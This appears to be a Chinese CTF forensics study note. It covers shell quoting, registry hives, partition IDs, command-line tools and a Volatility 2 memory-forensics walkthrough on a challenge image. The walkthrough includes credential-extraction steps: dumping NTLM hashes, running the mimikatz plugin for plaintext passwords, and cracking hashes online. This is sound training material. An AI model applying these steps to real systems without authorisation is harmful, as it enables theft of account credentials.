Forensics
前言
题目顺序与解法参考Hello-CTF
引号的使用
bash命令行中单引号基本原样保留，双引号会半保留并继续处理转义/变量。
因此能用单引号的不要用双引号
- 单引号
'...'：几乎完全不解释
在单引号里，shell 基本把内容当作“纯文本”：
- 不展开变量：
'$HOME'传给程序的就是字面量$HOME - 不处理反斜杠转义：
'\SystemRoot\System32'传给程序的就是\SystemRoot\System32 - 唯一难点：单引号里没法直接写单引号本身（要用拼接：
'foo'"'"'bar'这种）
所以要 精确匹配包含反斜杠的字符串，单引号最稳。
- 双引号
"..."：会做变量展开 + 处理一部分转义
双引号里 shell 仍然会做这些事：
- 展开变量：
"$HOME"会变成实际路径 - 处理命令替换：
"$(cmd)"会执行 cmd - 反斜杠 仍然有特殊含义，但只对部分字符生效
关键点：在双引号里，反斜杠只会转义这些字符（bash/zsh 常见行为）：
\"在双引号里表示一个"\\表示一个\\$表示字面量$（不展开变量）\` 表示字面量反引号\+ 换行：续行（把换行吃掉）
除此之外的 \X（比如 \S、\C）在双引号里通常会把反斜杠保留下来，但这就导致了一个麻烦：
以为传给 grep 的是 \SystemRoot\System32...，实际传过去的模式可能和想象的不一致（尤其当混用 \\、\、不同 shell、以及 grep 的正则解释时）。
【这里具体的使用详见Vol2使用记录中的查看注册表信息部分grep相关使用】
注册表相关知识与术语
- hive文件
- hive 文件，指的是 Windows 注册表（Registry）的“蜂巢”数据库文件：也就是把注册表里那些“键/值/配置”真正落盘保存的文件。
- 一种二进制数据库文件，存储注册表的层级结构（Key / Value / 数据）
| Hive 文件（常见路径） | 对应注册表根/映射 | 功能 |
|---|---|---|
C:\Windows\System32\Config\SYSTEM |
HKLM\SYSTEM |
启动相关配置、ControlSet、服务/驱动加载、硬件与网络基础配置等 |
C:\Windows\System32\Config\SOFTWARE |
HKLM\SOFTWARE |
系统组件与已安装软件的全局配置、注册信息、组件/COM、部分启动项等 |
C:\Windows\System32\Config\SAM |
HKLM\SAM |
本地用户/组信息、账号标识与关联数据、用于登录认证的相关数据（高度敏感，受保护） |
C:\Windows\System32\Config\SECURITY |
HKLM\SECURITY |
本地安全策略（如某些账户策略/权限分配）、审计策略与相关记录、LSA（本地安全机构）相关的安全配置数据（同样敏感） |
C:\Windows\System32\Config\DEFAULT |
HKU\.DEFAULT |
默认用户配置模板（系统/新用户默认环境用），不是当前用户 HKCU |
C:\Users\<用户>\NTUSER.DAT |
HKCU（= HKU\<SID>） |
当前用户的主要配置：桌面/Explorer、应用偏好、用户级历史/痕迹等 |
C:\Users\<用户>\AppData\Local\Microsoft\Windows\UsrClass.dat |
HKCU\Software\Classes（= HKU\<SID>_Classes） |
用户级类注册与 Shell 相关：文件关联、右键菜单/Explorer 行为等 |
C:\Boot\BCD 或 \EFI\Microsoft\Boot\BCD（严格说不是 hive） |
启动配置数据库 | 引导项/引导参数配置；格式不是 registry hive，但经常在“启动配置”语境一起出现 |
*.LOG1 / *.LOG2 / *.blf / *.regtrans-ms（伴随主 hive） |
（无直接映射） | 事务日志/恢复文件：保证写入一致性、崩溃恢复；不是主配置本体，但排障/取证常用 |
- 注册表相关命名
| 术语 | 学术化定义 | 典型形式（Volatility/Windows 表示） | 语义层级/作用域 |
|---|---|---|---|
| 键名（Key Name） | 注册表数据模型中 Key 节点的标识符；用于在同一父 Key 下区分子节点，构成层级命名空间中的一段路径（path segment）。 | Microsoft / Policies / Wow6432Node / CMI-CreateHive{GUID} |
hive 内部的逻辑层级（数据结构语义）；不描述挂载位置，只描述节点自身名称。 |
| 挂载名（Mount Name / Hive Name in Registry Namespace） | 操作系统将某个 hive 的根节点 绑定（mount）到全局注册表命名空间时赋予的入口路径；属于 OS 级命名空间映射，决定外部可见的访问前缀。 | \REGISTRY\MACHINE\SOFTWARE / \REGISTRY\MACHINE\SYSTEM / \REGISTRY\USER\<SID> |
全局注册表命名空间层（系统视角）；定义“这棵树在注册表里从哪里开始”。 |
| hive 路径名（Hive File Path / Backing File Path） | hive 在持久化层（磁盘）上的 来源文件标识；用于说明该内存 hive 的后备存储（backing store）来自哪个文件，属于 存储层元数据。 | \SystemRoot\System32\Config\SOFTWARE / \??\C:\Users\<user>\NTUSER.DAT |
持久化/文件系统层（存储语义）；描述“从哪里加载/可能写回到哪里”，不等同于注册表键路径。 |
Linux挂载 filesystem data 说明
（1）挂载后：
ls ./mnt会列出镜像里的根目录内容- 这些并不是在宿主文件系统里新创建出来的文件夹，而是镜像内部原本就存在的目录，通过挂载映射出来
（2）如果 ./mnt 在挂载前里面有文件，比如 ./mnt/old.txt
挂载后暂时看不到 old.txt，因为挂载会把这个目录覆盖成另一个文件系统的根。
卸载后（umount ./mnt）原来的 old.txt 又会出现——它没被删，只是被遮住了。
（3）挂载时如果用了 ro,noload参数：
- 不会回放 journal
- 不会进行正常的可写更新
则不会修改被挂载文件的内容
file 中分析磁盘镜像文件的ID说明
-
后来发现也可以直接
mmls查看（甚至包括偏移；fdisk也可以）
| ID(hex) | 常见含义 | 备注（取证视角） |
|---|---|---|
| 0x00 | Empty/Unused | 空分区表项 |
| 0x01 | FAT12 | 老式软盘/小分区 |
| 0x04 | FAT16 (<32MB) | 很老 |
| 0x05 | Extended | 扩展分区容器（MBR 只能4主分区，扩展分区里放逻辑分区） |
| 0x06 | FAT16 | 仍可能出现于U盘/老系统 |
| 0x07 | HPFS/NTFS/exFAT | Windows 常见；0x07 可能是 NTFS 也可能是 exFAT（需再验证） |
| 0x0B | FAT32 (CHS) | FAT32 |
| 0x0C | FAT32 (LBA) | 更常见的 FAT32 标记 |
| 0x0E | FAT16 (LBA) | 老但还会见到 |
| 0x0F | Extended (LBA) | 扩展分区（LBA 版本） |
| 0x11 | Hidden FAT12 | “隐藏分区”老套路之一（也可被滥用） |
| 0x12 | Compaq Diagnostics | 也见过被拿来伪装 |
| 0x14 | Hidden FAT16 | 同“Hidden”套路 |
| 0x16 | Hidden FAT16 (LBA) | 同上 |
| 0x17 | Hidden NTFS/exFAT | 伪装/隐藏常见（依旧要看真实FS签名） |
| 0x1B | Hidden FAT32 | 同上 |
| 0x1C | Hidden FAT32 (LBA) | 同上 |
| 0x1E | Hidden FAT16 (LBA) | 同上 |
| 0x27 | Windows Recovery / OEM | 常见于厂商恢复分区 |
| 0x2E | Windows GPT Protective（少见） | 更常见的 protective 是 0xEE（见下） |
| 0x82 | Linux swap | Linux 交换分区 |
| 0x83 | Linux (native) | 可能是 ext2/3/4、xfs 等（要再验证） |
| 0x84 | Hibernation | 少见 |
| 0x85 | Linux extended | 历史遗留，少见 |
| 0x8E | Linux LVM | Linux 逻辑卷管理（LVM），取证要先组卷 |
| 0xA5 | FreeBSD | *BSD 系统 |
| 0xA6 | OpenBSD | *BSD |
| 0xA8 | macOS Darwin / UFS | 老 mac/Unix 相关，现今少 |
| 0xAB | macOS Boot | 老 mac 相关 |
| 0xAF | macOS HFS/HFS+ | 老的 mac 文件系统 |
| 0xBE | Solaris boot | 少见 |
| 0xBF | Solaris | 少见 |
| 0xDA | Non-FS data | 厂商/OEM 也会用 |
| 0xDE | Dell Utility | OEM 工具分区 |
| 0xEE | GPT Protective MBR | GPT 盘在 MBR 里会放一个 0xEE 保护项（提示“这是 GPT”） |
| 0xEF | EFI System Partition (ESP) | 在 MBR 上也可能出现，但更常见于 GPT（ESP 实际通常是 FAT） |
常用指令之 less
less → 更高级的文本查看器；适用于大篇幅的文本查看
常用操作：
空格下一页，b上一页↑/↓或j/k逐行/foo搜索 foo，n下一个，N上一个q退出
常用指令之 strings
| 参数 | 含义 | 取证里常见用法/建议 | 示例 |
|---|---|---|---|
-n N / --bytes=N |
只输出长度 ≥ N 的字符串（默认通常 4） | 内存噪声很大，常用 6~10；想抓短 token 再降到 4~6 |
strings -n 8 mem.raw |
| `-t {d | x | o}` | 输出每条字符串在文件中的偏移（d=十进制，x=十六进制，o=八进制） |
| `-e {s | l | b | L |
-o OFFSET |
从指定偏移开始扫描（字节偏移） | 已知可疑区域/切片时加速；配合 -t x 很顺手 |
strings -n 8 -t x -o 0x1a000000 mem.raw |
-a |
扫描整个文件（实现相关：对 ELF/PE 等“只扫某些段”的默认行为有影响） | 对 raw 内存镜像通常无害；不确定实现差异时就加上 | strings -a -n 8 mem.raw |
1 | # 目前常用指令组合 |
常用指令之 xxd
| 参数 | 含义 | 取证里怎么用 | 示例 |
|---|---|---|---|
-s OFFSET |
起始偏移（seek）。可用十进制或 0x 十六进制 |
精准定位某个命中字符串/结构体位置；offset 常来自 strings -t x、Volatility dump 的文件偏移等 |
xxd -s 0xc7477af sample.mem |
-l LEN |
读取长度（字节数） | 控制窗口大小：看结构体头常用 64/96/128；看页/块可用 0x1000 |
xxd -s 0xc7477af -l 96 sample.mem |
-g N |
分组显示：每 N 字节一组（grouping） | 取证最常用 -g 1（逐字节）和 -g 2/4/8（看 16/32/64-bit 字段） |
xxd -g 4 -s 0x... -l 64 sample.mem |
-c N |
每行显示 N 字节（columns） | 想对齐结构字段时很有用：常用 16（默认常见）、32（宽一点） |
xxd -c 16 -g 1 -s 0x... -l 128 sample.mem |
-u |
十六进制用大写 A-F | 纯显示偏好；有时为了和报告/其他工具输出一致 | xxd -u -s 0x... -l 64 sample.mem |
-a |
自动跳过全 0 行（用 * 折叠） |
看大块数据时减少噪声；但可能会隐藏“长零区间”细节，需要时别开 | xxd -a -s 0x... -l 0x2000 sample.mem |
1 | # 目前常用的指令 |
常用指令之 diff
1)变更指令行：行号 + 动作 + 行号
格式大概是：
1 | <左文件行范围><动作><右文件行范围> |
动作只有三种：
a= add（右边新增）d= delete（左边删除）c= change（替换/修改）
例子：
118,119d117
- 左文件第 118–119 行 删除，对应右文件第 117 行位置
（右边没有这些行）
57,75c57
- 左文件第 57–75 行 被替换成 右文件第 57 行（或一段）
12a13,15
- 在左文件第 12 行后面，右文件多了第 13–15 行（右边新增）
2) 差异块的分隔符：---
当是 c（change）时，diff 会把两边内容都打印出来，用一行 --- 隔开：
1 | < 旧内容（来自左文件） |
如果是 a 或 d，通常只会出现一侧的 < 或 >（因为另一边没有）。
3) < 与 > 的含义
<：左边/第一个文件的行>：右边/第二个文件的行
4) 行号范围读法
- 单行：
57 - 多行范围：
57,75
意思就是从第 57 行到第 75 行（包含两端）。
5) diff 的几种常见输出风格
默认是 normal diff（最原始那种）。另外两种在取证里更常用：
A) diff -u（unified diff，最常用）
输出更紧凑，带上下文，常见于补丁 patch：
1 | diff -u A B |
特点：
- 用
--- A/+++ B表明文件 - 用
@@ -l,s +l,s @@表明差异块范围 - 行前缀：
-：只在 A 里+：只在 B 里- 空格：两边相同的上下文行
B) diff -c（context diff）
也带上下文，但格式比 -u 老一点，打补丁也能用。
6)常用参数
-q：只分析是否不同，不展示差异细节-s：连相同也提示-r：递归比较目录-N：把只存在于一边的文件当作另一边是空文件（目录对比很有用）-w：忽略所有空白差异（空格/tab/换行折叠）-B：忽略空行差异-i：忽略大小写--color=auto：彩色高亮（很多系统默认就开）
取证里常见组合：
1 | diff -ruN dirA dirB |
用来对比基线目录和可疑目录。
7)小技巧：只看新增/删除
如果用 -u，可以很快扫 +/- 行来定位异常插入（比如 .bashrc 的 PATH 那行），比 normal diff 更顺眼。
建议取证默认用：
1 | diff -u A B |
因为它带上下文，报告里也更好引用。
Windows .evtx 日志
| 命名字段/前缀 | 主要记录的东西（取证意义） |
|---|---|
| Security.evtx | 安全审计：登录成功/失败、账户/组变更、特权使用、（可选）进程创建等 |
| System.evtx | 系统层：启动关机、服务/驱动状态、系统错误、部分网络栈事件 |
| Application.evtx | 应用层：程序崩溃、应用报错、应用自身写入的运行日志 |
| Setup.evtx | 安装/升级/更新：系统安装、组件/角色变更、更新安装与回滚时间线 |
| TerminalServices-* | 远程桌面服务端与会话：RDP 认证、会话创建/断开/重连、重定向设备等（抓来源 IP/用户名很常用） |
| RemoteDesktopServices-* | RDP 更底层/管理侧：连接核心细节、会话管理告警与异常（补时间线/排障） |
| …RDPClient… | RDP 客户端侧：本机“连出去”的记录（目标主机、连接状态等） |
| PowerShell / Windows PowerShell | PowerShell 执行痕迹：命令/脚本块/模块加载（细节取决于 Operational 是否启用） |
| WinRM | 远程管理：WinRM 会话、远程执行相关事件 |
| NTLM | NTLM 认证：谁在用 NTLM、协商/失败、兼容性相关线索 |
| Authentication User Interface | 交互式登录界面：凭据输入/登录 UI 行为（辅助定位登录链） |
| GroupPolicy | 组策略：策略应用、刷新、失败原因（域环境重要） |
| AppLocker | 应用控制：EXE/DLL/MSI/脚本的允许或拦截（白名单/阻断证据） |
| CodeIntegrity | 代码完整性：驱动/二进制加载是否被阻止、签名/完整性问题（查可疑驱动/加载） |
| UAC | 提权提示：UAC 同意/拒绝、提权相关上下文（辅助提权路径） |
| Windows Defender | 防护检测：查杀/隔离/扫描、威胁命中与处置结果 |
| Windows Firewall With Advanced Security / WFP | 网络过滤：防火墙允许/阻止（需审计开启）；WFP 更底层的过滤事件 |
| SMBServer (Audit / Operational) | 文件共享：Audit 记“谁访问了什么共享/文件”（需审计）；Operational 记 SMB 服务连接/错误/状态 |
| NetworkProfile / NlaSvc / NCSI / NetworkProvider | 网络环境：网络识别/切换、连通性探测、网络服务状态（做联网时间线） |
| Dhcp-Client / Dhcpv6-Client | DHCP：获取/续租 IP、网关、租约时间（定位当时 IP 与网络段） |
| Bits-Client | BITS 后台传输：后台下载/上传任务（常用于更新/下载载荷的线索） |
| WindowsUpdateClient | Windows 更新：下载、安装、失败原因与时间线（和 Setup 互补） |
| TaskScheduler | 计划任务：创建/修改/执行（常见持久化点） |
| WMI-Activity | WMI 活动：查询、事件订阅等（常见持久化点） |
| Sysmon | 高价值遥测：进程/网络/文件/注册表等细粒度事件（如果装了，时间线能力很强） |
内存取证
学习网站：HelloCTF
Volatility 是一套面向内存取证（memory forensics）的开源框架，用于对物理内存镜像（RAM dump）进行结构化解析与语义重建：它基于操作系统内核数据结构与符号/配置机制，将原始内存字节映射为可查询的进程、线程、句柄、模块、网络连接与注册表等高层对象，从而支持可重复、可审计的证据提取与分析。
【所以内存取证的核心就是利用Volatility】
- 虽然但是……
虽说内存取证最为优雅的解法就是利用
Volatility Framework，但是都戏称：“内存取证的终点是 strings + grep ”。因为由于内存其本身就为操作系统和软件运行时的动态数据，所以绝大多数的数据都是直接以明文形式储存在内存之中的，往往直接 strings 进行提取明文字符串并加以筛选，就能获得一些意想不到的惊喜
Vol2使用记录
获取内存镜像详细信息
- imageinfo 是 Volatility 中用于获取内存镜像信息的命令。它可以用于确定内存镜像的操作系统类型、版本、架构等信息，以及确定应该使用哪个插件进行内存分析
1 | vol2 -f Challenge.raw imageinfo |

1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
Suggested Profile(s) 显示了 Volatility 推荐的几个内存镜像分析配置文件，可以根据这些配置文件来选择合适的插件进行内存分析（其他的看不懂也无所谓）
AS Layer2 显示了使用的内存镜像文件路径
KDBG（Kernel Debugger Block） 显示了内存镜像中的 KDBG 结构地址：通过它推断系统版本/内核结构布局，从而选择合适的 profile（解析模板）。
Number of Processors 显示了处理器数量
Image Type 显示了操作系统服务包版本
Image date and time 显示了内存镜像文件的创建日期和时间
配置文件profile
-
使用Vol2分析内存文件之前，需要先确定使用的配置文件（profile）【类似于010Editor中的bt模板文件】
-
Vol2中的配置文件名符合以下规范
1 | <Family><Version><ServicePack><Arch>[_<BuildOrVariant>] |
| 字段 | 典型写法 | 含义/解释 |
|---|---|---|
| Family / Version | WinXP |
Windows XP |
Win2003 |
Windows Server 2003 | |
Vista |
Windows Vista | |
Win2008 |
Windows Server 2008（非 R2） | |
Win7 |
Windows 7 | |
Win2008R2 |
Windows Server 2008 R2 | |
Win8 |
Windows 8 | |
Win81 |
Windows 8.1 | |
Win2012 |
Windows Server 2012 | |
Win2012R2 |
Windows Server 2012 R2 | |
Win10 |
Windows 10（Vol2 里不一定覆盖完整） | |
| Service Pack / Update | SP0 / SP1 / SP2 / SP3 |
Service Pack 0 / 1 / 2 / 3 |
U1 |
Update 1（8.1 里常见这种写法） | |
| Arch | x86 |
32 位架构 |
x64 |
64 位架构 | |
可选后缀 _... |
_23418, _24000 |
更细的构建/补丁分支，用于区分同一大版本下结构体布局差异（字段偏移可能不同） |
| 其他后缀 | 某些 profile 包会用不同后缀表达变体，具体以安装的 profiles 为准 |
- Service Pack 可以理解为微软给某个 Windows 版本打的一次**“大补丁合集 + 小版本升级”**
- SP0：没有装服务包（原始发布版本）
- SP1：安装了 Service Pack 1（Win7 里最常见）
- Vol2中
--info会显示有的profile
1 | vol2 --info | grep -i "Profile" |

（实际上差不多的可以先使用一个，没有那么严格：例如这个例子给出可能的是Win7/2008R2 x64（SP1 很大概率），基本可以随机拿一个作为profile了）
查看用户在终端里执行的命令
- Volatility 的 cmdscan 插件可以扫描内存镜像中的进程对象，提取已执行的 cmd 命令，并将其显示在终端中
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 cmdscan |

- 这里重点关注的就是上面红色区域的cmd.exe的执行历史（这里只开了一个cmd.exe，且提取内存的时候没有关闭）；可以看到反复执行打印字符串与查看hint.txt的内容：很显然是提示去找hint.txt。
1 | WW91IG1pZ2h0IG5lZWQgdGhpcyAtIHZpY3Rvcnk= |
查看进程在终端里运行的命令
cmdline插件用于从内存镜像中提取进程的启动命令行（通常来自 PEB/进程参数结构中的CommandLine字段），从而复原进程创建时的可执行路径与参数配置。其主要应用场景包括：构建进程溯源链（识别由谁以何种参数启动）、检测异常启动模式（如cmd.exe /c、PowerShell 编码参数、可疑脚本路径与落地目录）、以及为时间线分析与恶意行为归因提供启动阶段的关键上下文证据。
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 cmdline |

查找内存中的文件
- Volatility 的 filescan 插件可以在内存中搜索已经打开的文件句柄，从而获取文件名、路径、文件大小等信息
- 例如查找上面提到的 hint.txt 文件，可以使用以下命令
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 filescan | grep "hint.txt" |

- 前面的字段
0x000000011fd0ca70 16 0 R--rw- <path>** 【关键字段】**0x...：文件对象在内存中的偏移（后面dumpfiles -Q就用它）16：对象类型索引/大小类别（Vol2 的显示习惯里常见，不用太纠结）0：引用计数/句柄相关字段（这里为 0 很常见，尤其是扫描到残留对象时）R--rw-：权限/属性标志的一个粗略展示（可读可写等）
- 后面的路径可以分两段理解
\Device\HarddiskVolume2：内核里给某个分区/卷起的名字（第 2 个卷，不等于物理磁盘 2）。- 后面的
\Users\TroubleMaker\Documents\hint.txt：就是该卷上的实际目录结构。【具体是哪一个盘符需要看系统的当时的映射】
- 存在多条一样的记录可能是因为：
同一个文件对象在内存里留下了多个残留/副本
filescan是“扫描式”恢复（pool 扫描），可能同时扫到“当前活的对象”和“之前释放但内容还没被覆盖的对象”。同一个文件被多次打开，存在多个 FILE_OBJECT 结构
一个进程
type hint.txt打开一次就会创建一个文件对象引用；多次打开/不同进程打开，可能对应多个对象（或者同一对象多次引用）。
提取内存中的文件
-
Vol2 的 dumpfiles 插件可以用来提取系统内存中的文件【需要提供filescan获得的文件偏移地址】
-
这里要提取 hint.txt 文件，hint.txt 的内存位置为
0x000000011fd0ca70，由于这两个路径都一样，随便提取哪个都行
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000011fd0ca70 -D ./ |

- 提取出来的文件名是包含内存地址的，更改一下后缀名即可运行

- 也可以
-n一下按原始文件名导出（但可能还会附加.dat/.img/vacb等后缀）

查看浏览器历史记录
- Volatility 中的 iehistory 插件可以用于提取 Internet Explorer 浏览器历史记录
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 iehistory |

- 其他type类型
| Cache type（4字节签名） | 常见含义 | 含义 | 备注 |
|---|---|---|---|
URL （注意末尾有空格） |
普通 URL 记录：缓存/历史里的一条“访问过/缓存过”的 URL 记录 | 访问过什么 URL；有时还能带本地缓存文件路径、记录长度等（取决于解析器/来源 index.dat 类型） | 是最常见的记录之一。 |
DEST |
“目的地/目标”记录：更偏“历史访问条目”的一种表示（常见于 History 相关的 index.dat 结构），通常会带 URL + Title + 时间戳 | 这条 URL 曾作为“历史条目/目的页面”被记录（比如输出里那条就带 Title） | 不等于“正在访问/当前打开”，只是“曾被记录到历史/缓存体系里”。Volatility 的 iehistory 默认就会扫 URL 和 DEST。 |
REDR |
重定向记录：描述从 A 跳到 B 的那种跳转关系 | 能把“原始点击的 URL”和“最终落地 URL”串起来（对钓鱼跳转/短链很有用） | 在一些工具/文章里会明确把它当“redirect record”。 |
LEAK |
“泄漏/残留”记录：通常表示本该被清理/删除但没删干净（或清理时出错）而残留的记录 | 可能挖到“用户以为删了但仍残留”的 URL 痕迹 | 取证里经常拿它当“删除痕迹/清理失败残留”的线索。 |
HASH |
哈希表/索引记录：主要是为了加速查找（指向/组织其他记录），本身不一定直接携带“访问 URL”这种高层语义 | 更多是结构信息：帮助解释 index.dat 内部如何定位记录 | 很多解析器不会把它当“历史条目”打印出来，但在格式文档里它是常见类型之一。 |
- Title展示：访问记录到的URL

-
这里后面有一个题目有很多的浏览器历史；挑了几个有特点的说一下
- 这是一份记录存储网站cookie的记录

- 这是一份记录使用
file://协议访问本地文件系统文件的记录

- 普通 URL 缓存条目（为某个URL建的一条缓存索引记录；不是
Visited:历史条目）


提取用户密码 hash 值
- Volatility 中的 hashdump 插件可以用于提取系统内存中的Windows 本地账户的密码哈希（SAM 数据库里的 LM/NTLM hash）
- 统一格式：
用户名 : RID : LM哈希 : NTLM哈希 :::
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 hashdump |

LM 和 NTLM 都是 Windows 用来验证口令的哈希方案，但它们不是一个时代的东西：LM 是上古产物，NTLM 是后来的替代（再后来才是 Kerberos 等）。【现在基本用NTLM了】
RID（Relative ID，相对标识符）
500：内置 Administrator501：内置 Guest512：域管理员组（域环境常见）1000+：通常是后创建的本地用户/组（如这里的TroubleMaker:1001）
- 可以使用CrackStation在线比对字典获得明文密码

提取用户明文密码
- mimikatz 是一个开源的用于从 Windows 操作系统中提取明文密码，哈希值以及其他安全凭据的工具。【但是相对于hashdump限制条件更多，更加不稳定；未必能真提取到明文密码】
1 | vol2 --plugins=/home/Tools/Volatility/V2Plugins/ -f Challenge.raw --profile=Win7SP1x64 mimikatz |
-
但是通过创建配置文件自动加载社区插件，也可以解决


-
Module：是哪种认证包/凭据提供者（provider）里捞出来的。这里是
wdigest，代表从 WDigest 相关结构里提取到的凭据材料。 -
第二个显示的没有密码的账户是 这台机器自己的计算机账户（machine account）。
在 Windows 里有个概念：计算机也算一个“安全主体”，它也会有一个账号，用来做网络身份认证、访问资源、在域里和 DC 通信等。这个账号的典型特征就是：
- 名字以
$结尾：<COMPUTERNAME>$
- 名字以
查看剪切板里的内容
- Volatility 中的 clipboard 插件可以用于从内存转储中提取剪贴板数据
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 clipboard |

（1）Session 会话号（Windows 的 Session ID）。
1通常表示某个交互登录会话（不是 0 号的系统会话）。
这里全是1，说明这些剪贴板数据来自同一个交互用户会话。
（2）WindowStation **窗口站（Window Station）**名字。
WinSta0是最常见的交互窗口站：键盘/鼠标/桌面都在这。
这说明：这是正常桌面用户环境里的剪贴板，不是服务后台那种不可交互环境。
（3）Format 剪贴板数据格式（也就是 Win32 Clipboard Formats）。
常见的：
CF_UNICODETEXT：Unicode 文本（UTF-16LE），现代 Windows 最常用CF_TEXT：ANSI/本地代码页文本（老格式）CF_LOCALE：文本对应的区域/代码页信息（用来解释 CF_TEXT）0x0L：未知/无效/占位条目（有时是解析不到或残留的“空槽”）
（4）Handle
这是该条剪贴板数据在内存对象体系里的 句柄值（或插件打印出来的句柄相关标识）。
可以理解成：“系统用这个编号引用这块剪贴板数据”。
（5）Object
这是内核里对应的数据对象地址/指针（Volatility 打出来的 内存地址）。
有些格式会有对应对象（你第一行、第三行就有），有些可能解析不到就显示 ------------------。
（6）Data数据 如果插件能把数据解析成可读内容，就直接显示在这。
CF_TEXT ...但 Data 空
很常见：同一段文本会同时以CF_UNICODETEXT和CF_TEXT两种格式提供，方便老程序粘贴。
这里CF_TEXT解析不到/已被释放/不完整，所以没显示内容。
CF_LOCALE ...
给CF_TEXT用的语言/代码页线索。不是用户真正复制的内容，但能辅助解释 ANSI 文本。
获取正在运行的程序
- 这里我们用 Win7SP1x64 配置文件进行分析，Volatility 的 pslist 插件可以遍历内存镜像中的进程列表，显示每个进程的进程 ID、名称、父进程 ID、创建时间、退出时间和路径等信息
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 pslist |

-
Volatility 的 procdump 插件可以根据进程 ID 或进程名称提取进程的内存映像，并保存为一个单独的文件
比如这里要提取上面的 iexplore.exe 这个程序（黄标，PID为2728）
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 procdump -p 2728 -D ./ |


获取正在运行的服务
- svcscan 是 Volatility 中的一个插件，用于扫描进程中所有的服务
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 svcscan |

- 基本显示的字段就是Windows的services.msc中显示的那些字段了；注意Start字段含义
| Start 字段 | 含义 | 典型注册表 Start 值 |
备注 |
|---|---|---|---|
SERVICE_BOOT_START |
引导启动：由引导加载器/内核引导阶段加载 | 0 | 多见于关键 驱动（不是普通用户态服务） |
SERVICE_SYSTEM_START |
系统启动：内核初始化阶段加载（比 AUTO 更早） | 1 | 也主要是 驱动/内核组件 |
SERVICE_AUTO_START |
自动启动：系统启动过程中由 SCM 自动启动 | 2 | 常见；Win7 还有“延迟自动启动”，但 Start 仍是 2（另有 DelayedAutoStart=1） |
SERVICE_DEMAND_START |
手动启动：按需启动（用户/程序触发） | 3 | 需要时才启动 |
SERVICE_DISABLED |
禁用：不会启动 | 4 | 除非改回非禁用 |
- 执行了 svcscan 之后，每列代表服务的一些信息，包括服务名、PID、服务状态、服务类型、路径等等
查看注册表信息
- 使用 hivelist 插件来确定注册表的地址【注意用的是单引号】
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 hivelist | grep -i '\\SystemRoot\\System32\\Config\\SOFTWARE' |
- 这里grep后单引号明明不转义但仍然使用两个反斜杠的原因是有两层解释器在接力
- Shell（bash/zsh） 先处理的引号/转义
- grep 再把传进去的字符串当作 正则表达式 来解释

- printkey 是 Volatility 工具中用于查看注册表的插件之一。它可以帮助分析人员查看和解析注册表中的键值，并提供有关键值的详细信息，如名称、数据类型、大小和值等
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 printkey |

-
这里的Register字段是hive 文件在系统里的来源路径/名字，是 Windows 内核/对象管理器里的设备路径（NT 路径），用来描述这个 hive 对应的来源文件。
\SystemRoot不是一个磁盘目录名，它是一个系统别名，通常指向实际的 Windows 目录（一般是C:\Windows）。- 描述的是 hive 文件（容器）来自哪儿，而不是 hive 里面的某个 key。
-
-K可以指定要读取的注册表键路径【是Key name显示的那个；不是Register字段的hive文件的磁盘路径】- 从某个 hive 的根开始（比如
SOFTWARE/SYSTEM/SAM/SECURITY/DEFAULT），然后往下走； -K在不加-o时会在所有 hive里找匹配路径；- 可以先用
-o指定某个 hive 的偏移，再用-K写 hive 内部相对路径。 - 下面的是一个特殊例子：
CMI-CreateHive{...}是该 hive 的根节点（root key）在内存结构里的内部名字，但 Volatility2 的printkey -K，并不会把根节点名字当作可寻址的路径段来解析/匹配。因此无法只通过-K参数打印这个根键的子键。
- 从某个 hive 的根开始（比如
-
特殊例子
1 | # 例如SOFTWARE的hive文件；-K参数没法指定SOFTWARE然后去查看这个根下有那些子键，因为这个Key name不是SOFTWARE而是CMI-CreateHive{...}；而这个CMI-CreateHive{...}又不会被解析为可寻址路径 |
（这种一般需要先由 -o 参数用偏移地址值指定hive的根）
- 可以直接找其中一个子键ATI Technologies，然后在所有 hive里找匹配路径

- 但是SAM 这个 hive 的根 key 名字往往就叫
SAM（也就是根节点名字恰好可当作路径第一段），因此-K可以找到这个的根键

-K 'SAM'：在某些 hive（尤其 SAM 自己）里，根/顶层 key被实现成可被路径解析到的对象，所以能查出来。-K 'CMI-CreateHive{...}'：它是根对象的内部标签，不是路径树里的一个普通节点名，printkey的匹配逻辑不会拿它当路径去走。- 不是Key name 都应该能搜到，而是：只有当这个 Key name 位于
printkey -K的可寻址路径空间（hive 内部的普通 key 路径）时才搜得到。
- 寻找子键可以直接反斜杠往后找就行
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 printkey -K 'SAM\Domains\Account\Users\Names' |

- 也可以找到偏移后
-o作为首地址，然后再连接-K作为相对路径精确匹配要找的注册表的子键内容
1 | # 查询\SystemRoot\System32\Config\SOFTWARE根键的Clients子键 |

1 | # 看子键的子键（孙键）的话后面直接继续反斜杠连接即可（如查看孙键mail） |
- 同时
-K留空就可以解决之前只用键地址无法找到根键SOFTWARE的子键有哪些的问题了
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 printkey -o 0xfffff8a000bff010 -K "" |

- 如果要提取全部的注册表，可以用 dumpregistry 插件
1 | vol2 -f Challenge.raw --profile=Win7SP1x64 dumpregistry -D ./ |

全部插件
- 受限于环境，不一定每个都能使
amcache 查看AmCache应用程序痕迹信息
apihooks 检测内核及进程的内存空间中的API hook
atoms 列出会话及窗口站atom表
atomscan Atom表的池扫描(Pool scanner)
auditpol 列出注册表HKLMSECURITYPolicyPolAdtEv的审计策略信息
bigpools 使用BigPagePoolScanner转储大分页池(big page pools)
bioskbd 从实时模式内存中读取键盘缓冲数据(早期电脑可以读取出BIOS开机密码)
cachedump 获取内存中缓存的域帐号的密码哈希
callbacks 打印全系统通知例程
clipboard 提取Windows剪贴板中的内容
cmdline 显示进程命令行参数
cmdscan 提取执行的命令行历史记录（扫描_COMMAND_HISTORY信息）
connections 打印系统打开的网络连接(仅支持Windows XP 和2003)
connscan 打印TCP连接信息
